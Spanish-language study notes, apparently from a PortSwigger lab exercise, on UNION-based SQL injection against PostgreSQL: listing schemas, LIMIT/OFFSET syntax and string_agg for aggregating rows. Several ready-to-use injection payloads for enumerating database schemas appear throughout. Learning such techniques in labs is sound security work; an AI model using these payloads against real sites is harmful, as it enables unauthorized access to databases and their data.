 Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:


![Captura](./Imágenes/web_8.png)

### Listar schemas en la DB actual

PostgreSQL diferencia _bases de datos_ (cada una es independiente dentro del servidor) y _schemas_ (namespaces dentro de una base de datos)

```bash
' UNION SELECT NULL,schema_name FROM information_schema.schemata-- 
```

![Captura](./Imágenes/web_9.png)


---

## Limit

PostgreSQL**no** soporta `LIMIT 0,1`. Debe usarse: `LIMIT <count> OFFSET <offset>` → `LIMIT 1 OFFSET 0`

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Product`

```bash
' UNION SELECT NULL, schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0-- 
```


![Captura](./Imágenes/web_10.png)


---

## group_concat


- En **PostgreSQL** **no existe `GROUP_CONCAT`**. La alternativa equivalente es `string_agg(col, separador)` (por ejemplo `string_agg(schema_name, ',')`). También existen `array_agg` (devuelve un array) y `concat_ws` / `concat` para concatenar valores

```shell
' UNION SELECT NULL, (SELECT string_agg(schema_name, ',') FROM information_schema.schemata)-- 

```

![Captura](./Imágenes/web_11.png)

- `CONCAT()` toma columnas de **una fila** y las concatena. Si el objetivo es **unir varias filas** en una sola salida (ej. todos los schemas), `GROUP_CONCAT`/`string_agg` agregan múltiples filas; `CONCAT` no


```shell
' UNION SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
```
